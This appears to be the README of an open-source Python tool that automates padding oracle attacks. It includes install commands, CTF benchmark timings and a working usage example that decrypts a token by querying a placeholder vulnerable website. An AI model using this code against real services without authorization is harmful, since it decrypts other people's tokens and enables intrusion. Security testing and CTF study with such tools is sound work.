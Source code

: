 # Padding Oracle Python Automation Script 

![python-package-badge](https://github.com/djosix/padding_oracle.py/actions/workflows/python-package.yml/badge.svg)

The padding_oracle.py is a highly efficient, threaded [padding oracle](https://en.wikipedia.org/wiki/Padding_oracle_attack) attack automation script, specifically developed for Python 3.

## Installation

You can install the package using either PyPI or directly from GitHub:

**Via PyPI:**
```shell
pip3 install -U padding_oracle
```

**Via GitHub:**
```shell
pip3 install -U git+https://github.com/djosix/padding_oracle.py.git
```

## Performance Metrics

Performance of padding_oracle.py was evaluated using [0x09] Cathub Party from EDU-CTF:

| Number of Request Threads | Time Taken |
|-----------------|----------------|
| 1               | 17m 43s        |
| 4               | 5m 23s         |
| 16              | 1m 20s         |
| 64              | 56s            |

## How to Use 

To illustrate the usage, consider an example of testing `https://vulnerable.website/api/?token=M9I2K9mZxzRUvyMkFRebeQzrCaMta83eAE72lMxzg94%3D`:

```python
from padding_oracle import padding_oracle, base64_encode, base64_decode
import requests

sess = requests.Session() # use connection pool
url = 'https://vulnerable.website/api/'

def oracle(ciphertext: bytes):
    resp = sess.get(url, params={'token': base64_encode(ciphertext)})

    if 'failed' in resp.text:
        return False # e.g. token decryption failed
    elif 'success' in resp.text:
        return True
    else:
        raise RuntimeError('unexpected behavior')

ciphertext: bytes = base64_decode('M9I2K9mZxzRUvyMkFRebeQzrCaMta83eAE72lMxzg94=')
# len(ciphertext) is 32
# possibly be "IV + cipher block" if block size is 16

assert len(ciphertext) % 16 == 0

plaintext = padding_oracle(
    ciphertext,
    block_size = 16,
    oracle = oracle,
    num_threads = 16,
)
```

In addition, the package provides PHP-like encoding/decoding functions:

```python
from padding_oracle.encoding import (
    urlencode,
    urldecode,
    base64_encode,
    base64_decode,
)
```

## License

Padding Oracle Python Automation Script is distributed under the terms of the MIT license.

<!-- PiuPiuPiu -->
